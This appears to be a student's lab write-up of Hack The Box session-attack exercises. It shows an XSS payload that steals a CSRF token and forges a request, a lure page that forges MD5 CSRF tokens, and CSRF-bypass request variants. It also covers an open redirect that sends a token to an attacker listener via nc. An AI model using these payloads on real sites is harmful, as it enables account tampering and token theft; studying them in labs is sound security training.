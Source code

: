 # 🇿🇲 Session Attacks 2

## XSS & CSRF Chaining

Her are some stuff we must know about this web app:

{% hint style="info" %}


* The application features same origin/same site protections as anti-CSRF measures (through a server configuration - you won't be able to actually spot it)
* The application's _Country_ field is vulnerable to stored XSS attacks
{% endhint %}

After creating our account, we run burp and see the "Change visibility" functionality ->

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And in burp we see this:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We have to craft a payload and specify in the _Country_ field of Ela Stienen's profile to successfully execute a CSRF attack that will change the victim's visibility settings

```javascript
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
//This action will be related to the handleResponse function
req.open('get','/app/change-visibility',true);
//three arguments. get which is the request method, the targeted path /app/change-visibility and then true which will continue the execution.
req.send();
function handleResponse(d) {
    var token = this.responseText.match(/name="csrf" type="hidden" value="(\w+)"/)[1];
//defines a variable called token, which gets the value of responseText from the page we specified earlier in our request. /name="csrf" type="hidden" value="(\w+)"/)[1]; looks for a hidden input field called csrf and \w+ matches one or more alphanumeric characters.
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/app/change-visibility', true);
// Here we change the method from GET to POST. The first request was to move us to the targeted page and the second request was to perform the wanted action.
    changeReq.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
    changeReq.send('csrf='+token+'&action=change');
};
</script>
```

Here is how you can identify the name of a hidden value or check if it is actually "CSRF".

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

If we get no result we can look through the HTML for some code that's looks like a token

Now to test out the payload, we submit it and click save

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Now we get a new account simulating the victim, we log in and go in a new tab to look for [http://minilab.htb.net/profile?email=ela.stienen@example.com](http://minilab.htb.net/profile?email=ela.stienen@example.com)

Before visiting the link, the target was private

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

and if we go back to our profile after visiting the payload webpage, we should see that his profile became "public"

<figure><img src="../../../.gitbook/assets/image (5) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Exploiting Weak CSRF Tokens

First we create our account, then on our profile we press _Change Visibility_ and then _Make Public_.

then in the network requests we spot this:

<figure><img src="../../../.gitbook/assets/image (6) (1) (1).png" alt=""><figcaption></figcaption></figure>

We quickly see that the token is md5 ->

```shell-session
ElFelixi0@htb[/htb]$ echo -n goldenpeacock467 | md5sum
0bef12f8998057a7656043b6d30c90a2  -
```

Now we craft our malicious page ->

```html
<!DOCTYPE html>
<html lang="en">

<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <meta name="referrer" content="never">
    <title>Proof-of-concept</title>
    <link rel="stylesheet" href="styles.css">
    <script src="./md5.min.js"></script>
</head>

<body>
    <h1> Click Start to win!</h1>
    <button class="button" onclick="trigger()">Start!</button>

    <script>
        let host = 'http://csrf.htb.net'

        function trigger(){
            // Creating/Refreshing the token in server side.
            window.open(`${host}/app/change-visibility`)
            window.setTimeout(startPoc, 2000)
        }

        function startPoc() {
            // Setting the username
            let hash = md5("crazygorilla983")

            window.location = `${host}/app/change-visibility/confirm?csrf=${hash}&action=change`
        }
    </script>
</body>
</html>
```

In order to have our malicious page to have MD5-hashing functionality, save the below as `md5.min.js` and place it in the directory

```javascript
!function(n){"use strict";function d(n,t){var r=(65535&n)+(65535&t);return(n>>16)+(t>>16)+(r>>16)<<16|65535&r}function f(n,t,r,e,o,u){return d((u=d(d(t,n),d(e,u)))<<o|u>>>32-o,r)}function l(n,t,r,e,o,u,c){return f(t&r|~t&e,n,t,o,u,c)}function g(n,t,r,e,o,u,c){return f(t&e|r&~e,n,t,o,u,c)}function v(n,t,r,e,o,u,c){return f(t^r^e,n,t,o,u,c)}function m(n,t,r,e,o,u,c){return f(r^(t|~e),n,t,o,u,c)}function c(n,t){var r,e,o,u;n[t>>5]|=128<<t%32,n[14+(t+64>>>9<<4)]=t;for(var c=1732584193,f=-271733879,i=-1732584194,a=271733878,h=0;h<n.length;h+=16)c=l(r=c,e=f,o=i,u=a,n[h],7,-680876936),a=l(a,c,f,i,n[h+1],12,-389564586),i=l(i,a,c,f,n[h+2],17,606105819),f=l(f,i,a,c,n[h+3],22,-1044525330),c=l(c,f,i,a,n[h+4],7,-176418897),a=l(a,c,f,i,n[h+5],12,1200080426),i=l(i,a,c,f,n[h+6],17,-1473231341),f=l(f,i,a,c,n[h+7],22,-45705983),c=l(c,f,i,a,n[h+8],7,1770035416),a=l(a,c,f,i,n[h+9],12,-1958414417),i=l(i,a,c,f,n[h+10],17,-42063),f=l(f,i,a,c,n[h+11],22,-1990404162),c=l(c,f,i,a,n[h+12],7,1804603682),a=l(a,c,f,i,n[h+13],12,-40341101),i=l(i,a,c,f,n[h+14],17,-1502002290),c=g(c,f=l(f,i,a,c,n[h+15],22,1236535329),i,a,n[h+1],5,-165796510),a=g(a,c,f,i,n[h+6],9,-1069501632),i=g(i,a,c,f,n[h+11],14,643717713),f=g(f,i,a,c,n[h],20,-373897302),c=g(c,f,i,a,n[h+5],5,-701558691),a=g(a,c,f,i,n[h+10],9,38016083),i=g(i,a,c,f,n[h+15],14,-660478335),f=g(f,i,a,c,n[h+4],20,-405537848),c=g(c,f,i,a,n[h+9],5,568446438),a=g(a,c,f,i,n[h+14],9,-1019803690),i=g(i,a,c,f,n[h+3],14,-187363961),f=g(f,i,a,c,n[h+8],20,1163531501),c=g(c,f,i,a,n[h+13],5,-1444681467),a=g(a,c,f,i,n[h+2],9,-51403784),i=g(i,a,c,f,n[h+7],14,1735328473),c=v(c,f=g(f,i,a,c,n[h+12],20,-1926607734),i,a,n[h+5],4,-378558),a=v(a,c,f,i,n[h+8],11,-2022574463),i=v(i,a,c,f,n[h+11],16,1839030562),f=v(f,i,a,c,n[h+14],23,-35309556),c=v(c,f,i,a,n[h+1],4,-1530992060),a=v(a,c,f,i,n[h+4],11,1272893353),i=v(i,a,c,f,n[h+7],16,-155497632),f=v(f,i,a,c,n[h+10],23,-1094730640),c=v(c,f,i,a,n[h+13],4,681279174),a=v(a,c,f,i,n[h],11,-358537222),i=v(i,a,c,f,n[h+3],16,-722521979),f=v(f,i,a,c,n[h+6],23,76029189),c=v(c,f,i,a,n[h+9],4,-640364487),a=v(a,c,f,i,n[h+12],11,-421815835),i=v(i,a,c,f,n[h+15],16,530742520),c=m(c,f=v(f,i,a,c,n[h+2],23,-995338651),i,a,n[h],6,-198630844),a=m(a,c,f,i,n[h+7],10,1126891415),i=m(i,a,c,f,n[h+14],15,-1416354905),f=m(f,i,a,c,n[h+5],21,-57434055),c=m(c,f,i,a,n[h+12],6,1700485571),a=m(a,c,f,i,n[h+3],10,-1894986606),i=m(i,a,c,f,n[h+10],15,-1051523),f=m(f,i,a,c,n[h+1],21,-2054922799),c=m(c,f,i,a,n[h+8],6,1873313359),a=m(a,c,f,i,n[h+15],10,-30611744),i=m(i,a,c,f,n[h+6],15,-1560198380),f=m(f,i,a,c,n[h+13],21,1309151649),c=m(c,f,i,a,n[h+4],6,-145523070),a=m(a,c,f,i,n[h+11],10,-1120210379),i=m(i,a,c,f,n[h+2],15,718787259),f=m(f,i,a,c,n[h+9],21,-343485551),c=d(c,r),f=d(f,e),i=d(i,o),a=d(a,u);return[c,f,i,a]}function i(n){for(var t="",r=32*n.length,e=0;e<r;e+=8)t+=String.fromCharCode(n[e>>5]>>>e%32&255);return t}function a(n){var t=[];for(t[(n.length>>2)-1]=void 0,e=0;e<t.length;e+=1)t[e]=0;for(var r=8*n.length,e=0;e<r;e+=8)t[e>>5]|=(255&n.charCodeAt(e/8))<<e%32;return t}function e(n){for(var t,r="0123456789abcdef",e="",o=0;o<n.length;o+=1)t=n.charCodeAt(o),e+=r.charAt(t>>>4&15)+r.charAt(15&t);return e}function r(n){return unescape(encodeURIComponent(n))}function o(n){return i(c(a(n=r(n)),8*n.length))}function u(n,t){return function(n,t){var r,e=a(n),o=[],u=[];for(o[15]=u[15]=void 0,16<e.length&&(e=c(e,8*n.length)),r=0;r<16;r+=1)o[r]=909522486^e[r],u[r]=1549556828^e[r];return t=c(o.concat(a(t)),512+8*t.length),i(c(u.concat(t),640))}(r(n),r(t))}function t(n,t,r){return t?r?u(t,n):e(u(t,n)):r?o(n):e(o(n))}"function"==typeof define&&define.amd?define(function(){return t}):"object"==typeof module&&module.exports?module.exports=t:n.md5=t}(this);
//# sourceMappingURL=md5.min.js.map
```

Now we host our page and make our victim (which his account profile is not public) click on `http://<VPN/TUN Adapter IP>:1337/press_start_2_win.html`.

<figure><img src="../../../.gitbook/assets/image (7) (1) (1).png" alt=""><figcaption></figcaption></figure>

And if the target presses "Start!". We can  notice that the profile will become public!

<figure><img src="../../../.gitbook/assets/image (8) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Additional CSRF Protection Bypasses

You can try making the CSRF token a null value (empty), for example:

`CSRF-Token:`

Setting the CSRF token value to the same length as the original CSRF token but with a different/random value:

Real:

`CSRF-Token: 9cfffd9e8e78bd68975e295d1b3d3331`

Fake:

`CSRF-Token: 9cfffl3dj3837dfkj3j387fjcxmfjfd3`

Create two accounts and log into the first account. Generate a request and capture the CSRF token. Copy the token's value, for example, `CSRF-Token=9cfffd9e8e78bd68975e295d1b3d3331`.

Log into the second account and change the value of _CSRF-Token_ to `9cfffd9e8e78bd68975e295d1b3d3331` while issuing the same (or a different) request. If the request is issued successfully, we can successfully execute CSRF attacks

we can try changing the request method. From _POST_ to _GET:_

```http
POST /change_password
POST body:
new_password=pwned&confirm_new=pwned
```

```http
GET /change_password?new_password=pwned&confirm_new=pwned
```

Not sending a token works fairly often because of the following common application logic mistake.

Normal:

```http
POST /change_password
POST body:
new_password=qwerty&csrf_token=9cfffd9e8e78bd68975e295d1b3d3331
```

Let's try:

```http
POST /change_password
POST body:
new_password=qwerty
## or
new_password=qwerty&csrf_token=
```

## Open Redirect

An Open Redirect vulnerability occurs when an attacker can redirect a victim to an attacker-controlled site by abusing a legitimate application's redirection functionality.

The malicious URL an attacker would send leveraging the Open Redirect vulnerability would look as follows:&#x20;

`trusted.site/index.php?url=https://evil.com`

`Here are some`&#x20;

URL parameters to look for when bug hunting, we'll often see them in login pages. Example: `/login.php?redirect=dashboard`

* ?url=
* ?link=
* ?redirect=
* ?redirecturl=
* ?redirect\_uri=
* ?return=
* ?return\_to=
* ?returnurl=
* ?go=
* ?goto=
* ?exit=
* ?exitpage=
* ?fromurl=
* ?fromuri=
* ?redirect\_to=
* ?next=
* ?newurl=
* ?redir=

For the exercise let's say this is our URL:

`http://oredirect.htb.net/?redirect_uri=/complete.html&token=<RANDOM TOKEN>`

If you enter an email account, you will notice that the application is eventually making a POST request to the page specified in the _redirect\_uri_ parameter. A _token_ is also included in the POST request. This token could be a session or anti-CSRF token and, therefore, useful to an attacker.

<figure><img src="../../../.gitbook/assets/image (9) (1) (1).png" alt=""><figcaption></figcaption></figure>

Let's test out if we can make requests through _redirect\_uri ->_

```shell-session
ElFelixi0@htb[/htb]$ nc -lvnp 1337
```

We can change the URL we got earlier with this ->

`http://oredirect.htb.net/?redirect_uri=http://<VPN/TUN Adapter IP>:PORT&token=<RANDOM TOKEN>`

<figure><img src="../../../.gitbook/assets/image (10) (1) (1).png" alt=""><figcaption></figcaption></figure>
